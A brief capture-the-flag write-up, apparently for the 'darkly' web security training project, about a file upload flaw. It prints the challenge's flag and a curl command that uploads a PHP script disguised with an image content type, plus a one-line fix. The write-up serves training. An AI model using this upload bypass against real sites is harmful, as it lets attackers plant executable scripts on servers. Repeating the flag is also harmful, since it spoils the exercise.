 # UPLOAD IMG

## The flag
```
THE FLAG IS : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```

## How to find it ?
On the page http://{IP_ADDRESS}/index.php?page=upload
Force to upload a script by doing a curl with a script and an image type
```
curl -F "Upload=send" -F "uploaded=@script.php;type=image/jpeg" http://{IP_ADDRESS}/index.php\?page=upload
```

## How to use it ?
Send a php script into the backend

## How to avoid it ?
> Check the file type in back

---

[RETURN](https://github.com/tillderoquefeuil/darkly)